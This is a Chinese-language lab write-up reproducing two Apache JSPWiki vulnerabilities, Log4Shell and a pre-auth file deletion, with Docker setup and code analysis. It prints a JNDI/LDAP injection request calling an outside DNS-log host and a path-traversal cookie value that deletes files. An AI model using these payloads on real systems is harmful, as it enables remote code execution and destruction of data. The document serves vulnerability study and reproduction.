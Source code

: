 ## 相关漏洞
### CVE-2021-44228 Log4shell 

#### 漏洞描述

影响范围(已确认)：v2.11.0

![image-20220110151507777](jspwiki.assets/image-20220110151507777.png)



#### 漏洞复现

##### 环境搭建

查看仓库存在哪些版本的镜像

```shell
curl https://registry.hub.docker.com/v1/repositories/jspwiki/tags| tr -d '[\[\]" ]' | tr '}' '\n'| awk -F: -v image='jspwiki' '{if(NR!=NF && $3 != ""){printf("%s:%s\n",image,$3)}}'
```

![image-20220110150226665](jspwiki.assets/image-20220110150226665.png)

有存在log4shell版本(v2.11.0)的镜像，拉取

```shell
sudo docker pull apache/jspwiki:release-2.11.0

# 或者
docker pull vultarget/jspwiki_log4j_rce:2.11.0
```

查看本地已经pull的镜像

```
sudo docker images
```

![image-20220110171735060](jspwiki.assets/image-20220110171735060.png)

启动

```shell
# 提前将调试端口映射出来
sudo docker run -d -p 8080:8080 -p 5005:5005  --name jspwiki_log4shell_debug  vultarget/jspwiki_log4j_rce:2.11.0
```

应用首页

![image-20220110172151844](jspwiki.assets/image-20220110172151844.png)



##### 漏洞验证

**proof of concept**

```
curl -vv http://10.10.10.139:8080/wiki/$%7Bjndi:ldap:$%7B::-/%7D/9p1lvv.dnslog.cn%7D/
```

![image-20220110172050167](jspwiki.assets/image-20220110172050167.png)



### CVE-2021-44140 Pre-auth 文件删除

#### 漏洞描述

https://jspwiki-wiki.apache.org/Wiki.jsp?page=CVE-2021-44140

影响范围：Apache JSPWiki up to 2.11.0.M8

#### 漏洞复现

##### 环境搭建

###### 基于docker

搜索镜像

```
sudo docker search jspwiki
```

![image-20220110142929486](jspwiki.assets/image-20220110142929486.png)

```
sudo docker pull vulfocus/jspwiki-cve_2021_44140
docker run -d -p 8080:8080 --name jspwiki vulfocus/jspwiki-cve_2021_44140
```

![image-20220110143652926](jspwiki.assets/image-20220110143652926.png)

如图，成功搭建

![image-20220110143822970](jspwiki.assets/image-20220110143822970.png)

```
# 二次启动时，使用container id 即可
sudo dokcer ps -a
sudo docker start a50359cfb0d1

# 进入container 内部
sudo docker exec -it a50359cfb0d1 /bin/sh
```

![image-20220110153629595](jspwiki.assets/image-20220110153629595.png)

配置远程调试,在/bin/catalina.sh中添加如下代码：

```
CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,address=5005,suspend=n,server=y"
```

- address=5005: 5005为远程debug时监听的端口

![image-20220110154139526](jspwiki.assets/image-20220110154139526.png)

退出，将调试端口也映射出来

- 为运行的container增加端口 
  - https://stackoverflow.com/questions/19335444/how-do-i-assign-a-port-mapping-to-an-existing-docker-container

```
docker commit jspwiki jspwiki_debug
sudo docker run -p 8080:8080 -p 5005:5005 -td jspwiki_debug
```

本地idea测试

![image-20220110155734110](jspwiki.assets/image-20220110155734110.png)

`Connected` 表示成功

![image-20220110155805314](jspwiki.assets/image-20220110155805314.png)





##### 漏洞验证

**proof of concept**

现在/tmp/目录下创建flag.txt

![image-20220110161543541](jspwiki.assets/image-20220110161543541.png)



```http
Get /Logout.jsp
...
...
Cookie: JSESSIONID=xxx; JSPWikiAssertedName=xxx; JSPWikiUserPrefs=xxx;JSPWikiUID=../../../../../../../../../../../../../../../tmp/flag.txt
```

![image-20220110161704602](jspwiki.assets/image-20220110161704602.png)

成功删除flag.txt

![image-20220110161955992](jspwiki.assets/image-20220110161955992.png)

#### 漏洞分析

根据漏洞名称。可以猜出漏洞点在注销处。

测试版本：2.11.0.M7

跟进

- logout.jsp

  调用CookieAuthenticationLoginModule.clearLoginCookie() 删除cookie

  ![image-20220110131939248](jspwiki.assets/image-20220110131939248.png)

- org.apache.wiki.auth.login.CookieAuthenticationLoginModule#clearLoginCookie

  ![image-20220110132101561](jspwiki.assets/image-20220110132101561.png)

- org.apache.wiki.auth.login.CookieAuthenticationLoginModule#getLoginCookie(javax.servlet.http.HttpServletRequest)

  存在可控参数JSPWikiUID

  ![image-20220110133028087](jspwiki.assets/image-20220110133028087.png)

  若满足条件,则调用getCookieFile()，返回值赋值给uid

  ```
  String uid = getLoginCookie(request);
  ```

- org.apache.wiki.auth.login.CookieAuthenticationLoginModule#getCookieFile

  ![image-20220110132647092](jspwiki.assets/image-20220110132647092.png)

  创建cookieDir

  ```
  # 拼接后作为路径
  File cookieDir = new File(engine.getWorkDir(), "logincookies");
  ```

  若该路径不存在，则创建，执行流程走到第2个else分支

  ```
  File file = new File(cookieDir, uid);
  ```

  根据cookdir 和 uid 创建文件，返回值赋值给cf 。

  若满足条件

  ```
  cf != null && !cf.delete()
  ```

  则将文件cf进行删除处理
  
  ![image-20220110132939245](jspwiki.assets/image-20220110132939245.png)

